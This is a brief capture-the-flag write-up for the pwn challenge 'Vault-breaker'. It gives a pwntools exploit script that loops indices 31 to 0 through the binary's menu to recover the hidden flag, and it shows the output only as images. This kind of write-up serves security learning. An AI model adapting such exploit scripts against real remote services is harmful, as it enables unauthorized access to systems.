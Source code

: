 # Vault-breaker

## CHALLENGE DESCRIPTION
#### Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. Something is hidden inside it, can you find out the way it works and bring it to Bonnie?


# ![image](https://github.com/user-attachments/assets/7ee7128e-ac04-4e1d-82aa-5a774d0cced6)

```
#ab.py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```
> Below is the output of running ab.py script.
# ![image](https://github.com/user-attachments/assets/ada66c6b-172a-4d73-972b-6d702fda0919)

# ![image](https://github.com/user-attachments/assets/e3a89554-574f-4a17-b5cf-cd40f8613ba0)
